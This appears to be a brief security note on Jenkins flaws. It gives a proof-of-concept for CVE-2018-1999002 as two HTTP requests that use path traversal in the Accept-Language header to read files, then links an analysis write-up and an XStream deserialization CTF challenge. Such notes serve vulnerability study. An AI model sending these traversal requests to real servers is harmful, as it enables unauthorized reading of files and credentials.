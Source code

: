 # Jenkins

## CVE-2018-1999002
poc
```
GET /plugin/credentials/.ini HTTP/1.1
Host:
Accept-Language: ../../../../../../../../windows/win

GET /plugin/credentials/.txt HTTP/1.1
Host:
Accept-Language: ../../../../../../../../firebasky
```

[Jenkins 任意文件读取漏洞复现与分析-CVE-2018-1999002](https://chybeta.github.io/2018/08/07/Jenkins-%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E%E5%A4%8D%E7%8E%B0%E4%B8%8E%E5%88%86%E6%9E%90-%E3%80%90CVE-2018-1999002%E3%80%91/)

linux 下利用难度大 必须找一个存在`_`的目录




## 插件问题 xxe/xstream 反序列化
https://github.com/Firebasky/ctf-Challenge/tree/main/2021_xyb_easyJenkins
